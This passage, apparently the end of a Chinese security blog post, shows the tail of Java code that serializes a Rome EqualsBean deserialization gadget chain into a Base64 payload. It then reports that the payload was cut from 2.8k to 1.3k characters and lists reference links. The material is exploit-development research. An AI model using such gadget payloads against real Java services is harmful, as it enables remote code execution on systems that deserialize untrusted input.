 ```plain
        hashMap.put(equalsBean, "1");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
        }

    }
```

[![](assets/1701612185-9207a9cd236f1f0340919507d611d066.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155316-77b36c42-34f7-1.png)

可以看到缩短以后 EqualsBean 的链子从 2.8k 缩短到了 1.3k，缩短了百分之五十还多，达到了我们缩短 payload 的目的

参考文章：  
[https://goodapple.top/archives/1145](https://goodapple.top/archives/1145)  
[https://forum.butian.net/share/2137](https://forum.butian.net/share/2137)  
[https://boogipop.com/2023/04/26/%E6%98%93%E6%87%82%E7%9A%84Rome%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%88%E6%9B%B4%E6%96%B0%EF%BC%89/#EqualsBean%E9%93%BE](https://boogipop.com/2023/04/26/%E6%98%93%E6%87%82%E7%9A%84Rome%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%88%E6%9B%B4%E6%96%B0%EF%BC%89/#EqualsBean%E9%93%BE)

